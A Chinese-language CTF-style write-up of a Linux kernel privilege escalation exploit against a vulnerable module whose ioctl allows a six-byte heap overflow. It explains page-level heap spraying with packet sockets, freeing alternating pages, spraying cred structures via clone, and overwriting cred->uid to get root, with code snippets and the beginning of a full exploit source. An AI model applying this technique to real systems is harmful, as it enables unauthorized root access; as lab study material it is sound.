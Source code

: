 ioctl有添加object和编辑object，编译存在六字节溢出

- 先 分配大量的单张内存页，耗尽 buddy 中的 low-order pages和申请到一系列连续的内存

```c
  for (int i = 1; i < PGV_PAGE_NUM; i ++) {
        alloc_page(i);
    }
```

- 喷完后，后面部分申请的内存页一般是连续的，然后每间隔一张内存页释放掉下张内存页（关闭对应的socket，每张内存页对应一个socket），之后堆喷 cred（clone进程），这样便有几率获取到我们释放的单张内存页。

```c
  for (int i = 1; i < PGV_PAGE_NUM; i += 2) {
        free_page(i);
    }
 for (int i = 0; i < CRED_SPRAY_NUM; i++) {
        if (simple_clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, waiting_for_root_fn) < 0) {
            …………
        }
    }
```

- 释放掉之前的间隔的内存页，调用漏洞函数分配堆块，这样便有几率获取到我们释放的间隔内存页。此时有可能正好与cred所在的页连续，然后利用模块中漏洞进行越界写，篡改 cred-&gt;uid ，完成提权。 ```c
    for (int i = 0; i < PGV_PAGE_NUM; i += 2) {
        free_page(i);
    }
    memset(buf, 0, sizeof(buf));
    *(uint32_t *) &buf[VUL_OBJ_SIZE - 6] = 1;    /* cred->usage */
    for (int i = 0; i < VUL_OBJ_NUM; i++) {
        alloc();
        edit(i, VUL_OBJ_SIZE, buf);
    }
    ```

### 注意

pipe的参数需要是`int*`，不然其他总是通信不了

然后注意子进程检测是root起shell后，在主进程最后要通过sleep(1000),不然shell直接结束了

### exp

```c
#define _GNU_SOURCE 
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sched.h>
#include <assert.h>
#include <time.h>
#include <sys/socket.h>
#include <stdbool.h>

#define PACKET_VERSION 10
#define PACKET_TX_RING 13
#define CHUNK_SIZE 512
#define ALLOC 0xcafebabe
#define DELETE 0xdeadbabe
#define EDIT 0xf00dbabe
int pipe_parent_read[2];
int pipe_child_read[2];
```